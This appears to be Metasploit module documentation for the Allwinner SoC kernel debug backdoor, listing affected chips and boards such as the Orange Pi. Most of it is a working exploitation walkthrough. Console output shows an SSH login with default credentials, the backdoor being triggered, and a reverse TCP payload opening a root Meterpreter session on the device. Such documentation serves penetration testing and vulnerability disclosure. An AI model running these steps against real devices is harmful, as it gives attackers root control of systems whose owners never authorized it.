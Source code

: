   Vulnerable Allwinner SoC chips: H3, A83T or H8 which rely on Kernel 3.4
  Vulnerable OS: all OS images available for Orange Pis,
				 any for FriendlyARM's NanoPi M1,
				 SinoVoip's M2+ and M3,
				 Cuebietech's Cubietruck +
				 Linksprite's pcDuino8 Uno
  Exploitation may be possible against Dragon (x10) and Allwinner Android tablets

This module attempts to exploit a debug backdoor privilege escalation in Allwinner SoC based devices. Implements the Allwinner privilege escalation as documented in [Metasploit issue #6869](https://github.com/rapid7/metasploit-framework/issues/6869).  It is a simple debug kernel module that, when "rootmydevice" is echoed to the process, it escalates the shell to root.

## Usage

To use this module, you need a vulnerable device.  An Orange Pi (PC model) running Lubuntu 14.04 v0.8.0 works, but other OSes for the device (as well as other devices) are also vulnerable.

- `use auxiliary/scanner/ssh/ssh_login`

```
msf auxiliary(ssh_login) > set username orangepi
username => orangepi
msf auxiliary(ssh_login) > set password orangepi
password => orangepi
msf auxiliary(ssh_login) > set rhosts 192.168.2.21
rhosts => 192.168.2.21
msf auxiliary(ssh_login) > exploit

[*] 192.168.2.21:22 SSH - Starting bruteforce
[+] 192.168.2.21:22 SSH - Success: 'orangepi:orangepi' 'uid=1001(orangepi) gid=1001(orangepi) groups=1001(orangepi),27(sudo),29(audio) Linux orangepi 3.4.39 #41 SMP PREEMPT Sun Jun 21 13:09:26 HKT 2015 armv7l armv7l armv7l GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.229:33673 -> 192.168.2.21:22) at 2016-05-17 21:55:27 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- `use exploit/multi/local/allwinner_backdoor`

```
msf exploit(allwinner_backdoor) > set verbose true
verbose => true
msf exploit(allwinner_backdoor) > set session 1
session => 1
msf exploit(allwinner_backdoor) > set payload linux/armle/mettle/reverse_tcp
payload => linux/armle/mettle/reverse_tcp
msf exploit(allwinner_backdoor) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(allwinner_backdoor) > check
[*]  The target appears to be vulnerable.
msf exploit(allwinner_backdoor) > exploit
```

## Successful exploitation:

```
[*] Started reverse TCP handler on 192.168.2.117:4444 
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (374540 bytes) to 192.168.2.248
[+] Backdoor Found, writing payload to /tmp/odzVx.elf
[*] Max line length is 65537
[*] Writing 284 bytes in 1 chunks of 843 bytes (octal-encoded), using printf
[+] Escalating
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (374540 bytes) to 192.168.2.248
[*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.248:49472) at 2016-09-22 21:56:50 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.2.248
OS           : Ubuntu 14.04 (Linux 3.4.39)
Architecture : armv7l
Meterpreter  : armle/linux
```